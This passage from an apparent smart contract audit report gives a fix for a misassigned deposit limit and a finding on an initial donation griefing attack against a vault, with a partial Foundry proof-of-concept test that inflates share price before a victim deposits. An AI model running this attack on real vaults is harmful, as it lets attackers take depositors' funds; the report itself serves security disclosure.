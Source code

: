 ## Recommendations

Assign `_newMaxTotalDeposits` to `maxTotalDeposits` instead of `maxPerDeposit`.

```diff
    function setTVLLimits(uint256 _newMaxPerDeposit, uint256 _newMaxTotalDeposits) external onlyCapRaiser() {
        require(_newMaxPerDeposit<=_newMaxTotalDeposits, "newMaxPerDeposit exceeds newMaxTotalDeposits");

        maxPerDeposit = _newMaxPerDeposit;
-       maxPerDeposit = _newMaxTotalDeposits;
+       maxTotalDeposits = _newMaxTotalDeposits;

        emit MaxPerDepositUpdated(maxPerDeposit, _newMaxPerDeposit);
        emit MaxTotalDepositsUpdated(maxTotalDeposits, _newMaxTotalDeposits);
    }
```



# [M-03] Initial griefing attack possible

## Severity

**Impact:** High, as the victim loses their funds

**Likelihood:** Low, as it comes at a cost for the attacker

## Description

The famous initial deposit attack is largely mitigated by the `+1` done in the asset/shares conversion. However, doing this attack can cause some strange behavior that could grief users (at high cost of the attacker) and leave the vault in a weird state:

Here's a PoC showing the impacts, can be added to `Deposit.t.sol`:

```solidity
    Vault vault;
    MockERC20 asset;

    address bob = makeAddr('bob');

    function setUp() public {
        asset = new MockERC20();
        vault = new Vault(100e18,100e18,asset);

        asset.mint(address(this), 10e18 + 9);
        asset.mint(bob,1e18);
    }

    function test_initialSupplyManipulation() public {
        // mint a small number of shares
        // (9 + 1 = 10) makes math simpler
        asset.approve(address(vault),9);
        vault.deposit(9, address(this));

        // do a large donation
        asset.transfer(address(vault), 10e18);

        // shares per assets is now manipulated
        assertEq(1e18+1,vault.convertToAssets(1));

        // victim stakes in vault
        vm.startPrank(bob);
```